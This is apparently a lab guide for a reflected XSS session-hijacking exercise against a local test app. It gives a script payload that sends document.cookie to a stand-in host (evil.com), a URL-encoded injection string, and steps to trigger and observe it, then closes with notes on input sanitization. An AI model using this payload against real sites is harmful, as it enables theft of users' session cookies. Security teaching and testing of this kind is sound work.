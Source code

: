 Below is the markdown file content with proper formatting:

# Steps to Attempt the Session Hijacking XSS Attack

## Craft the Malicious Payload

The payload to simulate session hijacking is:

```html
<script>
  var i = new Image();
  i.src = "http://evil.com/steal?cookie=" + document.cookie;
</script>
```

This script creates a new image element and sets its source to a URL on an attacker-controlled server (here represented by evil.com), appending the user's cookie as a query parameter.

## Inject the Payload

Append the payload to the vulnerable query parameter. For example, in your browser, enter a URL similar to:

```php-template
http://localhost:3000/?content=<script>var%20i=new%20Image();%20i.src="http://evil.com/steal?cookie="+document.cookie;</script>
```

**Note:** The payload should be URL-encoded as needed by your browser.

## Trigger the Exploit

Press Enter after entering the URL.

The page will render and include the injected payload. Because the user input is not sanitized, the browser will execute the injected script.

Open your browser’s developer tools (F12) and check the Network tab to observe the request. The script attempts to send a request to:

```arduino
http://evil.com/steal?cookie=...
```

...including the simulated cookie value (or your browser’s actual cookie if available).

## Document Your Findings

- Note that the unsanitized reflection of user input allows the script to execute and send cookie data to the specified URL.
- Discuss how an attacker could leverage this vulnerability to hijack user sessions.
- Explain the importance of proper input sanitization and output encoding to prevent such vulnerabilities.
